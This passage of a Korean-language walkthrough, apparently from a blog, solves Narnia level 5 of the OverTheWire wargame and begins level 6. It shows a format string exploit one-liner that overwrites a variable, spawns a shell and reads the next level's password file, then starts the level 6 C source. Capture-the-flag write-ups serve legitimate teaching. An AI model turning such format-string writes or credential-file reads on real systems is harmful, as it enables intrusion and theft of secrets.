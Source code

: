 <br>

format string bug를 이용해 풀 수 있음. 

i에 500을 넣어줘야하기 때문에 i의 주소를 넣고 입력 값이 참조되어지는 포맷 스트링은 첫 번재이므로 첫 번째에 500을 넣어줘야 함.  

```주소값 4 + 496``` 총 500의 값이 i에 씌워지게 될꺼임. 

<br>

```
narnia5@narnia:/narnia$ ./narnia5 `python -c 'print "\xd0\xd6\xff\xff"+"%496c%1$n"'`
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [                                            ] (50)
i = 1 (0xffffd6e0)
```

<br>

주소가 바껴서 다시 입력. 

<br>

```
narnia5@narnia:/narnia$ ./narnia5 `python -c 'print "\xe0\xd6\xff\xff"+"%496c%1$n"'`
Change i's value from 1 -> 500. GOOD
$ id
uid=14006(narnia6) gid=14005(narnia5) groups=14005(narnia5)
$ cat /etc/narnia_pass/narnia6
neezocaeng
```

<br>

```
password : neezocaeng
```

<br><br>

## Level 6 -> Level 7
<hr style="border-top: 1px solid;">

<br>

```ssh narnia5@narnia.labs.overthewire.org -p 2226```

```password : neezocaeng```

<br>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
```